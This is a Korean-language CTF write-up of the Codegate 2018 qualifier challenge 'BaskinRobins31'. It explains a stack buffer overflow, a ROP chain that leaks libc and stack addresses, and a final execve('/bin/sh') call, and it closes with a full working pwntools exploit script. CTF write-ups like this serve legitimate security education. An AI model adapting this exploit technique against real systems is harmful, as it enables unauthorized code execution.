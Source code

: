 +++
title = "Codegate CTF 2018 Qual - BaskinRobins31"
date = "2024-07-09"
description = "Codegate CTF 2018 Qual pwnable challenge"

[taxonomies]
tags = ["ctf", "pwnable", "bof", "rop"]
+++
## 0x00. Introduction

``` bash
[*] '/home/user/BaskinRobins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Concept

베스킨라빈스 게임을 거꾸로해서 **1~3까지의 숫자를 고르면 (중요)** 31에서 빼고, 마지막 숫자 0을 부르는 사람이 지는 게임을 구현했다.

## 0x01. Vulnerability

``` c
__int64 __fastcall your_turn(_DWORD *a1)
{
  ...
  char buf[160]; // [rsp+10h] [rbp-B0h] BYREF

  len = read(0, buf, 0x190uLL);
  ...
}
```

취약점은 단순하게 내가 입력을 넣는 `your_turn()`에서 BOF가 발생한다.

## 0x02. Exploit

``` python
    payload = b"1" + b"A" * 0xaf
    payload += b"B" * 8          # sfp
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(elf.got['write'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    libc = u64(s.recv(1024)[0:6] + b"\x00\x00") - lib.symbols['write']
    system = libc + lib.symbols['execve']
    log.info(f"libc : {hex(libc)}")
    log.info(f"system : {hex(system)}")
```

BOF가 가능하니 ROP를 이용해서 libc leak을 했고 `execve` 주소까지는 잘 획득했다.

처음에는 `system`의 주소로 exploit을 진행했는데, stack alignment 때문인지 segmentation fault가 발생해서 `execve`로 바꿨더니 성공했다.

문제는 `execve`에 어떻게 `/bin/sh`를 전달하느냐인데, libc에서 찾아서 전달해도 되지만 `environ`을 이용한 stack leak으로 해결했다.

``` python
    payload = b"2" + b"C" * 0xaf
    payload += b"D" * 8
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(libc + lib.symbols['environ'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    environ = u64(s.recv(1024)[1:7] + b"\x00\x00")
    log.info(f"environ : {hex(environ)}")
    log.info(f"binsh : {hex(environ - 0x1d0)}")
```

이렇게 `environ`에 담겨있는 stack 영역 주소를 받아와서 `buf+0x8`과의 offset 차이를 계산한 후, `buf+0x8`에 `/bin/sh` 문자열을 넣어서 `execve` 함수의 인자로 전달했다.

``` python
    payload = b"3" + b"E" * 7
    payload += b"/bin/sh\x00"
    payload += b"F" * (0xb0 - len(payload))
    payload += b"G" * 8
    payload += p64(bp['pppr'])
    payload += b"H" * 0x18
    payload += p64(bp['pppr'])
    payload += p64(environ - 0x1d0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(system)
    s.sendline(payload)

    s.interactive()
```

그런데 마지막 payload에서 `pppr` 가젯에 갈때 이상하게 `rsi` 값만 이상해져서 쉘이 자꾸 안떴다.

``` bash
➜  0x40097a <your_turn+214>  ret
    ↳   0x40087a <helper+4>       pop    rdi
        0x40087b <helper+5>       pop    rsi
        0x40087c <helper+6>       pop    rdx
        0x40087d <helper+7>       ret
gef➤  x/4gx $rsp
0x7fffffffe188: 0x000000000040087a      0x00007fffffffe0d8
0x7fffffffe198: 0x00000000fffffffd      0x000000000000000
```

처음에는 뭐지 싶어서 그냥 `pppr` 가젯을 두 번 호출하는 것으로 해결했는데...

```
.text:000000000040095D  mov     rax, [rbp+var_B8]
.text:0000000000400964  mov     eax, [rax]
.text:0000000000400966  sub     eax, [rbp+choice]
```

알고보니 베스킨라빈스 게임을 하면서 내가 입력한 값이 감소하는 것이었다 ㅋㅋㅋㅋ

그래서 어? 앞에서는 왜 잘 됐지? 하고 확인해보니...

``` c
write(1, write_got, 8 - 1);
write(1, write_got, 8 - 2);
```

앞의 ROP payload에서는 `write`의 `size` 인자값에서 1, 2만큼 빠졌고, 주소값이 어차피 8바이트를 다 안쓰니까 괜찮았던거였다 ㅋㅋㅋㅋ

Payload를 작성할 때 dummy를 다르게 구성해서 어느 payload가 전달된건지 알 수 있게끔 하려고 한건데, 이런 나비효과가 발생할 줄이야...

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "BaskinRobins31"
LIBRARY = "libc.so.6"

bp = {
    'main' : 0x0000000000400a4b,
    'end_of_main' : 0x0000000000400b5a,
    'your_turn' : 0x00000000004008a4,
    'end_of_your_turn' : 0x000000000040097a,
    'pppr' : 0x40087a,                          # pop rdi; pop rsi; pop rdx
}

gs = f'''
b *{bp['end_of_your_turn']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    s.recv(1024)

    payload = b"1" + b"A" * 0xaf
    payload += b"B" * 8          # sfp
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(elf.got['write'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    libc = u64(s.recv(1024)[0:6] + b"\x00\x00") - lib.symbols['write']
    system = libc + lib.symbols['execve']
    log.info(f"libc : {hex(libc)}")
    log.info(f"system : {hex(system)}")

    payload = b"2" + b"C" * 0xaf
    payload += b"D" * 8
    payload += p64(bp['pppr'])
    payload += p64(1)
    payload += p64(libc + lib.symbols['environ'])
    payload += p64(8)
    payload += p64(elf.plt['write'])
    payload += p64(bp['main'])
    s.sendline(payload)

    s.recvn(len(payload) + 3)
    environ = u64(s.recv(1024)[1:7] + b"\x00\x00")
    log.info(f"environ : {hex(environ)}")
    log.info(f"binsh : {hex(environ - 0x1d0)}")

    payload = b"3" + b"E" * 7
    payload += b"/bin/sh\x00"
    payload += b"F" * (0xb0 - len(payload))
    payload += b"G" * 8
    payload += p64(bp['pppr'])
    payload += b"H" * 0x18
    payload += p64(bp['pppr'])
    payload += p64(environ - 0x1d0)
    payload += p64(0)
    payload += p64(0)
    payload += p64(system)
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```
